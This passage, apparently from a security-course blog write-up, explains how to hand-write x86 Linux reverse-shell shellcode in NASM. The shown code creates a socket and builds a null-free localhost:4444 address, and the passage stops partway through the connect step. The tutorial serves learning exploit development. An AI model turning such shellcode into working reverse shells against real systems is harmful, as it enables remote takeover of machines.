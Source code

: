 Now, we are ready to go with reverse_shell.nasm

**There is detailed explanation on the various commands on my previous assignment - <https://naglinagli.github.io/shellbind/> Which can help figuring out the shellcode creating proccess (i will use same methods, hence i don't want to write the same again.**

## Create the socket

In order to create TCP Socket we need to push the following into the stack (don't forgot to push in reverse order)

1. domain – specifies a communication domain - AF_INET (2)
2. type – specifies the communication semantics - SOCK_STREAM (1)
3. protocol – specifies a particular protocol to be used with the socket - TCP protocol is 6, but we will insert (0).

* **AF_INET** is an address family that is used to designate the type of addresses that your socket can communicate with (in this case, Internet Protocol v4 addresses). 

* SOCK_STREAM means that it is a TCP socket.

* Protocol numbers - <https://www.iana.org/assignments/protocol-numbers/protocol-numbers.xhtml>

All the following comes down to the following code :

```c
; setting up the socket
	xor ebx, ebx    ; zeroing out the ebx register
	mul ebx	       ; zeroing out eax and edx registers

	mov al, 0x66    ; setting eax to the socket_call SYSCALL
	mov bl, 0x01     ; assigning 1 to ebx register (SYS_SOCKET)	 
  
	push edx        ; push 0 to the stack (IPPROTO_IP)
	push ebx        ; push 1 to the stack (SOCK_STREAM)
	push 0x2        ; push 2 to the stack (AF_INET)

	mov ecx, esp    ; keep 1st argument address in ecx
	int 0x80         ; syscall
	mov edi, eax	; saving the file descriptor
```

## Connect to the specified IP and port

In this part we encounter an obstacle, as we want our reverse shell to point to localhost (127.0.0.1), we have to find a way to make the reverse shell shellcode null-byte free, therefore, we can do the following:
set the ecx register to 3.2.2.128
decrement from the register 2.1.1.1
as a result we get 1.0.0.127, which is exactly how we want to push the localhost to the stack (in reverse order).

```c
; Connection
	xor ebx, ebx	; zeroing out ebx register
	mul ebx		; zeroing out eax and edx registers
	mov al, 0x66	
	mov bl, 0x03	; set ebx value to 3, (SYS_CONECT)
	
	mov ecx, 0x03020280	; set ecx register 3.2.2.128
	sub ecx, 0x02020201	; decrement 2.1.1.1
	push ecx		; push localhost (127.0.0.1) NULL-FREE
	push word 0x5C11       ; push the port number (4444)
	push word 0x02	       ; AF_INET syscall
		
	mov ecx, esp    ; keep 1st argument address in ecx.
	push byte 0x10    ; push the address length (addrlen)
```